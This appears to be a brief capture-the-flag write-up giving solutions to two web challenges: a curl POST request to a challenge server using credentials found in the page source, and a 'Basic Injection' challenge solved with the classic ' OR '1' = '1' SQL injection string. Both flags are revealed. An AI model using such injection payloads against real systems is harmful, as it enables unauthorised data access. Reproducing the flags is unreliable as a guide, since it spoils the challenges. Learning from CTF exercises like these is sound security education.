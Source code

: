 # POST Pratice

If you go to the site and have it inspected, you will see a username and a password.

Execute `curl -X POST http://165.227.106.113/post.php -d "username=admin&password=71urlkufpsdnlkadsf"` on [Reqbin](https://reqbin.com/curl) to send a request and get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{p0st_d4t4_4ll_d4y}
``
</details>

# Basic Injection

Paste the query in the input : `SELECT * FROM webfour.webfour where name = ' OR '1' = '1'`

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
``
</details>